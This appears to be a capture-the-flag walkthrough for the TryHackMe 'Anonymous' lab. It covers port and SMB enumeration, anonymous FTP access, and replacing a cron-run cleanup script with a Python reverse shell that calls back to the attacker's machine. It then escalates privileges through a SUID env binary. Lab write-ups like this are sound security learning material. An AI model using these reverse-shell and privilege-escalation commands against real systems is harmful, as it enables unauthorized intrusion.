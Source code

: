 # TryHackMe-AnonymousCTF-Writeup

Writeup for Anonymous room, ctf avaiable at https://tryhackme.com/room/anonymous (visit try hack me https://tryhackme.com/)

### General info

Some alias:

MACHINE_IP = victim's ip
MY_IP = my ip address on Try Hack Me network

I'm using a kali virtual machine and connecting via openVPN

## First task

Since I'm running nmap (in order to enumerate the machine) as root, the scan would be a syn scan by default: 

`nmap -A $MACHINE_IP`

Just count the open ports.

## Second task/Third task

-A flag being used, the command for the first question also gives the answers for the second and the third ones.

## Fourth task

We can use enum4linux to answer this:

`enum4linux MACHINE_IP`

it gives us the answer

## Fifth task

I decided to try anonymous login on the ftp and smb services to see if I could find interesting files

for smb:

`smbclient //MACHINE_IP/<name of the share from the previous task>`

Just hit enter when it asks for the password.
I was able to download two pictures, and used both exiftool and steghide to retrieve more information.
I also tried stegseek on both images but I was able to retrieve no passphrase so ... nothing with the pics!

for ftp:

`ftp $MACHINE_IP` 

Entered username "anonymous" and no password.

There was one directory called scripts containing some files: clean.sh , removed_files.log, to_do.txt

I used 'get <filename' ftp's command to get them on my machine: 
to_do.txt -> was a note from the admin which states that anonymous login is not secure ... you don't say!
clean.sh -> It's a cleanup scripts that is going to write something in removed_files.log when it's executed
removed_files.log -> contains the log from the previous script.

Monitoring the content of removed_files.log I realized that the script was running about every minute, so I used it to gain a reverse python shell:

>> !#/bin/bash
>> export RHOST="MY_IP";export RPORT=4445;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

(The previous reverse shell was taken from the git project: https://github.com/swisskyrepo/PayloadsAllTheThings)

I uploaded it with ftp overriding the old clean.sh, started a netcat listener (`nc -lvnp 4445`) and waited few seconds.

I receveid a reverse shell which I stabilized by background the process (ctrl + z) and running `stty raw -echo; fg`

I ran `id` and `whoami` to acknowledge I was logged as 'namelessone' in whose home directory I found the file user.txt containing the flag for this task

## Sixth task

As I usually do, the first thing to find privilege escalation vectors was 
`find / -perm /6000 2>/dev/null`
which reveals you all the files with the SUID set so you can see if there is something unusual. In this case I found the bin "/usr/bin/env" which I searched for on GTFOBins, I found the exploitaion which requires you to change directory in /usr/bin and run
`./env /bin/sh -p`
This gave me a root reverse shell I could use to retrieve the root flag located in /root

